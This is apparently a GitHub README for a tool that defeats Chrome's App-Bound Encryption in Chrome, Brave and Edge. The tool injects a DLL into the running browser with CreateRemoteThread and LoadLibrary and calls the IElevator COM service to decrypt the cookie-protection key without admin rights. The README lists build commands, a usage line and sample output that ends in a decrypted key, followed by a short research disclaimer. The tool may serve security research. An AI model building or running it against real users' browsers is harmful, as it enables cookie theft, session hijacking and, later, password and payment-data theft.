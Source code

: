 # Chrome App-Bound Encryption Decryption

> **Purpose**  
> Decrypt the **App‑Bound Encrypted (ABE)** keys stored in the *Local State* file of Chromium‑based browsers (**Chrome, Brave, Edge**) **without requiring administrative privileges**.

Starting with Chrome 127, Google introduced ABE: cookies (and, in future, passwords & payment data) are encrypted with a key that can only be decrypted by the browser’s own **IElevator** COM service *and* when the calling binary is inside the browser’s installation directory.  

This project bypasses the path‑validation requirement by **injecting a DLL into the running browser process (CreateRemoteThread + LoadLibrary)** and calling IElevator from there.

## Supported & Tested Versions

| Browser | Tested Version (x64 & ARM64) |
|---------|-----------------------------|
| **Google Chrome** | 135.0.7049.96 |
| **Brave** | 1.77.100 |
| **Microsoft Edge** | 135.0.3179.85 |

> [!NOTE]  
> The injector requires the target browser to be **running**.


## Build Instructions

1. **Clone** the repository and open a *Developer Command Prompt for VS* (or any MSVC‑enabled shell).  
2. **Compile the DLL** (responsible for the decryption logic):

    ```bash
    cl /EHsc /LD /O2 /MT chrome_decrypt.cpp ole32.lib oleaut32.lib shell32.lib version.lib comsuppw.lib /link /OUT:chrome_decrypt.dll
    ```
3. **Compile the injector** (responsible for DLL injection & console UX):

    ```bash
    cl /EHsc /O2 /MT chrome_inject.cpp ole32.lib shell32.lib version.lib /link /OUT:chrome_inject.exe
    ```

Both artifacts (`chrome_inject.exe`, `chrome_decrypt.dll`) must reside in the same folder.

## Usage

```bash
PS chrome_inject.exe <browser>
```

### Example

```bash
PS C:\Users\ah\Documents\GitHub\Chrome-App-Bound-Encryption-Decryption> chrome_inject.exe chrome
------------------------------------------------
|  Chrome App-Bound Encryption Decryption      |
|  CreateRemoteThread + LoadLibrary Injection  |
|  v0.3 by @xaitax                             |
------------------------------------------------

[*] Located Chrome with PID 16044
[+] Chrome Version: 135.0.7049.96
[+] DLL injected.
[*] Starting Chrome App-Bound Encryption Decryption process.
[+] COM library initialized.
[+] IElevator instance created successfully.
[+] Proxy blanket set successfully.
[+] Retrieving AppData path.
[+] Local State path: C:\Users\ah\AppData\Local\Google\Chrome\User Data\Local State
[+] Base64 key extracted.
[+] Finished decoding.
[+] Key header is valid.
[+] Encrypted key retrieved: 01000000d08c9ddf0115d1118c7a00c04fc297eb...
[+] BSTR allocated for encrypted key.
[+] Decryption successful.

[+] Decrypted Key: 97fd6072e90096a6f00dc4cb7d9d6d2a7368122614a99e1cc5aa980fbdba886b
```

Further Links:

- [Google Security Blog](https://security.googleblog.com/2024/07/improving-security-of-chrome-cookies-on.html)
- [Chrome app-bound encryption Service](https://drive.google.com/file/d/1xMXmA0UJifXoTHjHWtVir2rb94OsxXAI/view)
- [snovvcrash](https://x.com/snovvcrash)
- [SilentDev33](https://github.com/SilentDev33/ChromeAppBound-key-injection)

## Disclaimer

> [!WARNING]  
> This tool is intended for cybersecurity research and educational purposes. Ensure compliance with all relevant legal and ethical guidelines when using this tool.